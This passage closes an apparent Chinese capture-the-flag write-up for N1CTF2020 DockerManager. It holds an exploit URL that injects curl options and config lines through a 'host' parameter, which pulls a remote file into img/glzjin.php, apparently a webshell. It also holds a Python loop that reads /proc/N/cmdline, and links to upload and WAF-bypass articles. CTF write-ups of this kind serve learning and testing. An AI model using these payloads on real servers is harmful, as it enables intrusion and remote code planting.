http://81893acd-e5b6-4fa8-9b92-90ef49877eac.node3.buuoj.cn/view.php?host=-K/dev/urandom%00&cacert=111%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0aurl=”https://gist.githubusercontent.com/glzjin/2c81bd6f1ef880f593ed18157400bbcb/raw/0f039d674ddf0fe026e87bf3faa56ca9a187b10f/n1ctf_docker_manager”%0aoutput=”img/glzjin.php”%0a%0a%0a%0a%0a%0a%0a
```


/proc/28/cmdline


#### 爆破脚本

```python
import requests

for i in range(1, 100):
    r = requests.get("http://81893acd-e5b6-4fa8-9b92-90ef49877eac.node3.buuoj.cn/view.php?host=-K/proc/" + str(i) + "/cmdline%00")
    print(r.text)
```


# 转载和参考资料

- [宝塔WAF绕过上传方法](http://www.0x3.biz/archives/375.html)
- [浅谈 Linux系统 proc](https://patrilic.top/2019/09/11/%E6%B5%85%E8%B0%88%20Linux%E7%B3%BB%E7%BB%9F%20Proc/)
- [N1CTF2020 DockerManager WriteUp](https://www.zhaoj.in/read-6750.html)
- [利用最新Apache解析漏洞（CVE-2017-15715）绕过上传黑名单](https://www.leavesongs.com/PENETRATION/apache-cve-2017-15715-vulnerability.html)
- [CTF - 文件上传](https://hack-for.fun/103ec22a.html)

